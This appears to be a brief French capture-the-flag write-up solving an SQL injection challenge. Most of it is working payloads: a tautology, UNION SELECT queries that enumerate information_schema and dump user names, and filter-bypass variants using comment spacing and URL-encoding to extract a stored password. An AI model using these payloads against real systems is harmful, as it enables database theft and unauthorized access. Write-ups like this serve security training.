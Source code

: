 Pour la première table le OR nous met sur la piste d'une sql :
'OR true#

on récupère le téléphone et l'adresse

Pour la seconde table :
'UNION SELECT table_name,null FROM information_schema.tables#
'UNION SELECT column_name,null FROM information_schema.columns WHERE table_name="Users"#
'UNION SELECT nom,prenom FROM Users#

on récuère le nom et le prénom

Pour la dernière table on connnait d'après la 1ère table le code de l'opération:
OpérationGorfou on obtient la date et l'heure.
Pour le mot de passe nous devons bypass des filtres d'où le FILTER dans le titre de la page:
/**/ pour bypass les espaces et %53NION pour bypass le UNION
'union/**/%53elect/**/table_name,null,null/**/from/**/information_schema.tables#
'union/**/%53elect/**/column_name,null,null/**/from/**/information_schema.columns/**/where/**/table_name="Password"#
'union/**/%53elect/**/mdp,null,null/**/from/**/Password#

on récupère le mot de passe
